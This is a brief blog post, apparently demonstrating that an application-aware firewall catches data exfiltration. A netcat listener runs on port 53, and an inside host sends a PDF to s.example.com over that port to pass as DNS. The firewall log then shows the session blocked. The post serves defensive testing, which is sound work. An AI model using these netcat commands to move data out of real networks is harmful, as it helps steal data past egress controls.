 ```yaml
---
layout: post
title:  "Application Firewall Data Exfiltration"
date:   2020-03-14 14:11:15 -0400
categories: exfiltration 
tags: app-id
---
```

<p>
Once an environment has been compromised and the adversary finds some desirable data the data needs to be removed from the network. In this use case we will assume that common protocols like FTP and SSH are heavily restricted on egress traffic (as they should be) so a simple listener will be open on the DNS port which is more commonly permitted.
</p>

<h3>Step 1 - Start the Listener</h3>

<p>
In this example the listener is being run on a Linux host outside of the firewall.
</p>

<p>nc is like a networking swiss army knife, -l means listen, -p specifies port 53, and > data indicates to store all of the data received in a file called data.
</p>
<br>
<code>
  nc -l -p 53 > data
</code>
<br>
<br>
<img src="/images/exfiltration-netcat-destination.png" alt="netcat">

<h3>Step 2 - Send a File</h3>

<p>
From a blue host behind the firewall run netcat.
</p>

<p>
This time netcat is being run with --send-only which only allows sending to the target, the target is s.example.com, the port is 53 to appear as DNS, and < rp_DBIR_2017_Report_en_xg.pdf sends that PDF over the channel.
</p>
<br>

<code>
  ncat --send-only s.example.com 53 < rp_DBIR_2017_Report_en_xg.pdf
</code>
<br>
<br>
<img src="/images/exfiltration-netcat-source.png" alt="netcat">


<h3>Step 3 - View the Results</h3>

<p>
After several seconds we see that the sending device ends the session with "broken pipe", meaning something happened to the session and it ended. This could be from the target, source, or something in between.
</p>

<p>
Looking at the following NGFW log we can see that the NGFW prevented the session. It determined that the traffic is not actually DNS and instead identified it as psiphon, which is not permitted in any policy.
</p>
<br>
<br>
<img src="/images/exfiltration-netcat-ngfwlog.png" alt="ngfw">



